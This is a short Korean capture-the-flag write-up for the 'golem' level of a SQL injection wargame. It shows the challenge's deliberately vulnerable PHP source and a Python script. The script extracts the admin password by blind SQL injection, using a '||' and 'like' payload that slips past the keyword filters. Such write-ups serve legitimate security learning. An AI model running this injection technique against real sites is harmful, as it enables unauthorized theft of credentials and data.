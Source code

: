 
# LOS: golem

## 삽질

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```

`or` 과 `and`, `substr` 함수가 필터링 되어있다. 하지만 이전 문제부터 `||` 기호를 활용해왔었는데 아직 막히지 않았다.

<br>

## writeup

```python
import requests
cookie = {'PHPSESSID':'timor8st6kt5bc5iblpcdm225b'}
flag = 1

def my_request(upw):
	url = f'https://los.rubiya.kr/chall/golem_4b5202cfedd8160e73124b5234235ef5.php?pw={upw}'
	response = requests.get(url=url,cookies=cookie)
	return response

def find_pw(res):
	for i in range(38,127):
		upw = f'1\' || pw like \'{res}'+chr(i)+'%\' --+'
		response = my_request(upw)
		if i == 38:
			continue
		if "Hello admin" in response.text:
			print("I got: ",chr(i))
			return chr(i)

	print("I think it was completed")
	flag = 0
	return 0

def solve():
	res = ""
	while flag:
		res += find_pw(res)


if __name__ == "__main__":
	solve()	
```